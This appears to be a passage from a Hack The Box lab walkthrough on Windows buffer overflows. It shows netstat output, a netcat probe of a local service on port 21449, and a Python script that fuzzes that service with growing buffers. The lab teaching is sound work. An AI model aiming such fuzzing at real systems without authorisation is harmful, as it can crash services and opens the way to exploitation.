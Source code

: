```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\htb-student> NETSTAT.EXE -a

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            WIN32BOF-WS01:0        LISTENING
  TCP    0.0.0.0:445            WIN32BOF-WS01:0        LISTENING
  TCP    0.0.0.0:3389           WIN32BOF-WS01:0        LISTENING
  TCP    0.0.0.0:5040           WIN32BOF-WS01:0        LISTENING
  TCP    0.0.0.0:21449          WIN32BOF-WS01:0        LISTENING
<SNIP>
```

Before attempting to exploit the binary, students can try to connect to it and see if it returns any response on input, finding out that it does not:

Code: powershell

```powershell
.\nc.exe 127.0.0.1 21449
```

```
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 21449

test
foo
bar
```

Subsequently, students need to write a Python script that will gradually fuzz `win32bof`, saving it to the desktop:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A" * i
            print(f"Fuzzing {i} bytes")
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            breakpoint()
            s.close()
    except:
	    print("Could not establish a connection")
fuzz()
```
